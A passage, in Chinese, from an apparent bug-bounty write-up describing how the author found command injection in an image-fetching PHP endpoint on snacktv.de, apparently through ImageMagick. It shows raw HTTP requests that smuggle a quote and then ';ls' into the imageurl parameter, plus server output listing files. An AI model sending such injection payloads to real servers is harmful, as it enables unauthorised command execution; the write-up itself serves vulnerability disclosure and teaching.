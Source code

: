 重新回到URL地址后，我变得有些烦躁，开始怀疑服务器在处理图片文件的具体实现。如果雅虎没有将图片作为一个整体来处理，而是采用将URL注入到XML中的“image xlink:href”的处理方式呢，这种方式与漏洞PoC中的情况类似。那么我需要尝试哪种载荷才能验证我的猜想？

我在浏览器的地址中附加了一个额外的双引号，然后看到了一些有趣的输出信息，如下所示：

请求：



```
GET /imged/getImg.php?imageurl=" HTTP/1.1
Host: snacktv.de
Connection: close
Upgrade-Insecure-Requests: 1
```

服务器响应：



```
By default, the image format is determined by its magic number.
To specify a particular image format, precede the filename with an image format name and a colon (i.e. ps:image)...
... or specify the image type as the filename suffix (i.e. image.ps). Specify file as - for standard input or output.
```

我之所以使用这个请求，是因为在之前的PoC所使用的XML文件中，我们是在URL实体上使用了双引号（可能单引号也可以）。如果我们向服务器发送一个双引号，就可以迫使服务器跳出这个逻辑处理区域，然后获取服务器上写入命令位置的写权限（参考前文引用的PoC）。

看来服务器的确使用了ImageMagick！在某种程度上，我是否打破了服务器的执行流程呢？这是否就是命令行的输出？我应该接着发送更多请求。

请求：



```
GET /imged/getImg.php?imageurl=";ls HTTP/1.1
Host: snacktv.de
Connection: close
Upgrade-Insecure-Requests: 1
```

服务器响应：



```
By default, the image format is determined by its magic number.
To specify a particular image format, precede the filename with an image format name and a colon (i.e. ps:image)...
... or specify the image type as the filename suffix (i.e. image.ps). Specify file as - for standard input or output.
[redacted]
[redacted]
index.php
getImage.php
[redacted]
[redacted]
```
